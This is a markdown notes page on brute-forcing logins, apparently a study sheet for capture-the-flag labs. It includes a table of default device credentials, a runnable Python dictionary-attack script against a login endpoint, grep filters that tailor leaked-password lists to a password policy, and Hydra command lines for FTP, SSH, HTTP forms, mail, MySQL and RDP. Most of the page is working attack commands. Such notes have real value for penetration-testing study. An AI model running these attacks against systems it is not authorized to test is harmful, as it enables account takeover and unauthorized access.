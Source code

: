 ```yaml
---
layout: default
title: Brute Force Attacks
permalink: /Web/brute_force/
---
```


## Default Passwords
Some examples of default passwords:
{% raw %}
| Device/Manufacturer    | Default Username | Default Password | Device Type                     |
|------------------------|------------------|------------------|---------------------------------|
| Linksys Router         | admin            | admin            | Wireless Router                 |
| D-Link Router          | admin            | admin            | Wireless Router                 |
| Netgear Router         | admin            | password         | Wireless Router                 |
| TP-Link Router         | admin            | admin            | Wireless Router                 |
| Cisco Router           | cisco            | cisco            | Network Router                  |
| Asus Router            | admin            | admin            | Wireless Router                 |
| Belkin Router          | admin            | password         | Wireless Router                 |
| Zyxel Router           | admin            | 1234             | Wireless Router                 |
| Samsung SmartCam       | admin            | 4321             | IP Camera                       |
| Hikvision DVR          | admin            | 12345            | Digital Video Recorder (DVR)   |
| Axis IP Camera         | root             | pass             | IP Camera                       |
| Ubiquiti UniFi AP      | ubnt             | ubnt             | Wireless Access Point           |
| Canon Printer          | admin            | admin            | Network Printer                 |
| Honeywell Thermostat   | admin            | 1234             | Smart Thermostat                |
| Panasonic DVR          | admin            | 12345            | Digital Video Recorder (DVR)   |
{% endraw %}
SecLists maintains a list of common usernames at [top-usernames-shortlist.txt](https://github.com/danielmiessler/SecLists/blob/master/Usernames/top-usernames-shortlist.txt).

## Utilizing Wordlists

- Publicly Available Lists: Repositories like [SecLists](https://github.com/danielmiessler/SecLists/tree/master/Passwords) offer various wordlists catering to various attack scenarios.
- Custom-Built Lists: We can craft our wordlists by leveraging information gleaned during reconnaissance.

Example python script for dictionary attack:
```
import requests

ip = "127.0.0.1"  # Change this to your instance IP address
port = 1234       # Change this to your instance port number

# Download a list of common passwords from the web and split it into lines
passwords = requests.get("https://raw.githubusercontent.com/danielmiessler/SecLists/refs/heads/master/Passwords/Common-Credentials/500-worst-passwords.txt").text.splitlines()

# Try each password from the list
for password in passwords:
    print(f"Attempted password: {password}")

    # Send a POST request to the server with the password
    response = requests.post(f"http://{ip}:{port}/dictionary", data={'password': password})

    # Check if the server responds with success and contains the 'flag'
    if response.ok and 'flag' in response.json():
        print(f"Correct password found: {password}")
        print(f"Flag: {response.json()['flag']}")
        break
```
We can costumize wordlists based on the password policy:
```
grep -E '^.{8,}$' darkweb2017-top10000.txt > darkweb2017-minlength.txt
grep -E '[A-Z]' darkweb2017-minlength.txt > darkweb2017-uppercase.txt
grep -E '[a-z]' darkweb2017-uppercase.txt > darkweb2017-lowercase.txt
grep -E '[0-9]' darkweb2017-lowercase.txt > darkweb2017-number.txt
```
These commands:
- Filter for passwords containing at least 8 characters.
- Enforces at least one uppercase letter.
- Enforces at least one lowercase letter.
- Enforces that passwords containing at least one numerical digit.

*Note: Many users reuse passwords across multiple online accounts, so breached passwords can be useful.*

## Hydra
It is a versatile tool that can brute-force a wide range of services, including web applications, remote login services like SSH and FTP, and even databases.
Hydra's basic syntax:
```
hydra [login_options] [password_options] [attack_options] [service_options]
```
Few examples:
- FTP: `hydra -l admin -P /path/to/password_list.txt ftp://$ip`, `hydra -L usernames.txt -P passwords.txt -s 2121 -V ftp.example.com ftp`
- SSH: `hydra -l root -P /path/to/password_list.txt ssh://$ip`, `hydra -l root -p toor -M targets.txt ssh`
- HTTP-GET: `hydra -L usernames.txt -P passwords.txt www.example.com http-get`
- HTTP-POST: `hydra -l admin -P passwords.txt www.example.com http-post-form "/login:user=^USER^&pass=^PASS^:S=302"`,`hydra -l admin -P /path/to/password_list.txt $ip http-post-form "/login.php:user=^USER^&pass=^PASS^:F=incorrect"`
- SMTP: `hydra -l admin -P /path/to/password_list.txt smtp://mail.server.com`
- POP3: `hydra -l user@example.com -P /path/to/password_list.txt pop3://mail.server.com`
- IMAP: `hydra -l user@example.com -P /path/to/password_list.txt imap://mail.server.com`
- MySQL: `hydra -l root -P /path/to/password_list.txt mysql://$ip`
- RDP: `hydra -l admin -P /path/to/password_list.txt rdp://$ip`, `hydra -l administrator -x 6:8:abcdefghijklmnopqrstuvwxyzABCDEFGHIJKLMNOPQRSTUVWXYZ0123456789 $ip rdp`



